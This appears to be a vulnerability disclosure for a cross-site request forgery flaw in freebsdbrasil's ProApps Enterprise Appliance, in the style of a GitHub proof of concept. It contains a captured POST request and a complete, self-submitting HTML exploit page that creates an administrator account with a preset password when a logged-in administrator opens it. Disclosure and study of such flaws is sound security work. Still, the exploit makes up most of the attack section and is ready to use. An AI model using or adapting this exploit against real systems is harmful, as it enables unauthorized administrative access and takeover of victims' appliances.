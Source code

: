 # Description Item:
```
Product Vendor: freebsdbrasil
Item: ProApps - Enterprise Appliance
Editor Creator: DreamWeaver
PHP: PHP Version 7.3.18 
Java Script Library: Jquery UI 1.6 | Jquery 1.2.6
Server: NGINX
Operational System: FreeBDS Unix
```

## Vulnerability Type:
Cross-Site Request Forgery (CSRF)

## Description Vulnerability:
CSRF can cause lot of consequences, depending on how the CSRF request is crafted and the application's behavior. In this case, it is a CSRF vulnerability that allows the creation of an administrative account on the web application, resulting in unauthorized access. To exploit a CSRF, the victim needs to be authenticated and have the "Users" management permission set to "Modified" (True).

## Exploitation:
Cross-site request forgery (also known as CSRF) is a web security vulnerability that allows an attacker to induce users to perform actions that they do not intend to perform. It allows an attacker to partly circumvent the same origin policy, which is designed to prevent different websites from interfering with each other.

As mentioned before, when an authenticated user clicks on the link, the malicious code will send a request to create a new user by the user's web browser. The code below creates a new administrative account in the vulnerable web application with the username `CSRF_POC` and the password `yourpassword`.
The code sends a crafted POST request to the `ger_user page` page with the parameters `login`, `password`, `password2`, `nome`, `gid` and `email` fields. It is important to mention that this page is responsible for creating new users or changing their passwords. Filling the other parameters is optional; all the important ones are already completed and ready to use. Below is the `POST request` to create a new user on the web application:

```
POST /index.php?page=ger_user HTTP/1.1
Host: vulnerablewebsite
Content-Length: 402
Cache-Control: max-age=0
Authorization: XXXXXXXXXXXXXXXXXXXXXXXXXXXX
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Origin: https://XXXXXXXX
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://vulnerablesite/index.php?page=ger_user
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive

task=save&boxchecked=0&hidemainmenu=0&search=&dados%5Bid%5D=&dados%5Bnome%5D=Teste&dados%5Blogin%5D=user_test&dados%5Bemail%5D=test%40hotmail.com&dados%5Bgid%5D=2&dados%5Bpassword%5D=test123456&dados%5Bpassword2%5D=test123456&dados%5Bblock%5D=0&dados%5Bblock2%5D=1&dados%5Btotp2fa%5D=0&dados%5Btotp2fa_test%5D=&dados%5Btotp2fa_key%5D=4b818698b94ffb5e92377024f060d531&id=&option=ger_user
```


The code below is the exploit responsable to create a new administrative account on the web application.

NOTE: Leave the `gid` parameter is set to 1 to ensure that the account will have administrative permissions, however, it can be changed depending on how the environment is configured.

```
<!DOCTYPE html>
<html lang="pt-br">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Send CSRF-POST Request</title>
</head>
<body>
    <form action="https://vulnerablesite.com/index.php?page=ger_user" method="POST">
        <!-- Campos do formulário -->
        <input type="hidden" name="task" value="save">
        <input type="hidden" name="boxchecked" value="0">
        <input type="hidden" name="hidemainmenu" value="0">
        <input type="hidden" name="search" value="">

        <input type="hidden" name="dados[id]" value="">
        <input type="hidden" name="dados[nome]" value="POC_CSRF">
        <input type="hidden" name="dados[login]" value="csrf_account">
        <input type="hidden" name="dados[email]" value="csfr@test.com">
        <input type="hidden" name="dados[gid]" value="1">
        <input type="hidden" name="dados[password]" value="yourpassword">
        <input type="hidden" name="dados[password2]" value="yourpassword">
        <input type="hidden" name="dados[block]" value="0">
        <input type="hidden" name="dados[block2]" value="0">
        <input type="hidden" name="dados[totp2fa]" value="0">
        <input type="hidden" name="dados[totp2fa_test]" value="">
        <input type="hidden" name="dados[totp2fa_key]" value="xxxxx">
        <input type="hidden" name="id" value="">
        <input type="hidden" name="option" value="ger_user">
    </form>
    <script>
        document.forms[0].submit();
    </script>
</body>
</html>
```
Once exploited, it is now possible to log into the application and obtain unauthorized access.

## Impact Vulnerability:
CSRF Cross-Site Request Forgery allows creation of an administrative account or account hijacking.

### References:
- https://portswigger.net/web-security/csrf
- https://owasp.org/www-community/attacks/csrf
- https://www.linkedin.com/pulse/from-csrf-account-takeover-unmasking-danger-cross-site-request-lylbf/

